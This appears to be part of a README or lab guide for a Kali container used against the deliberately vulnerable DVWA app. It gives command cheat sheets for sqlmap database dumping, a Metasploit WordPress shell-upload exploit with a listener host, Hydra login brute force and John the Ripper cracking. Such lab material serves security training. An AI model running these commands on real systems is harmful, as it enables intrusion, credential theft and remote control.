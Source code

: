 ### SQL Injection Testing
```bash
# Basic SQLMap
sqlmap -u "http://dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --batch

# With custom cookie (for authenticated pages)
sqlmap -u "http://dvwa/vulnerabilities/sqli/?id=1" --cookie="security=low; PHPSESSID=xxx"

# Dump database
sqlmap -u "http://dvwa/vulnerabilities/sqli/?id=1" --dbs --batch
```

### Metasploit
```bash
# Start Metasploit
msfconsole

# Search for exploits
msf6 > search wordpress

# Use an exploit
msf6 > use exploit/unix/webapp/wp_admin_shell_upload

# Show options
msf6 > show options

# Set target
msf6 > set RHOSTS dvwa
msf6 > set LHOST 172.20.0.5

# Run exploit
msf6 > exploit
```

### Password Cracking
```bash
# Hydra - HTTP form brute force
hydra -l admin -P /usr/share/wordlists/rockyou.txt dvwa http-post-form "/login.php:username=^USER^&password=^PASS^:Login failed"

# John the Ripper
john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
```

## Installing Additional Tools

The Kali container is based on Kali Rolling, so you can install any Kali package:

```bash
# Update package list
apt update

# Install a tool
apt install -y aircrack-ng

# Search for tools
apt search exploit
```
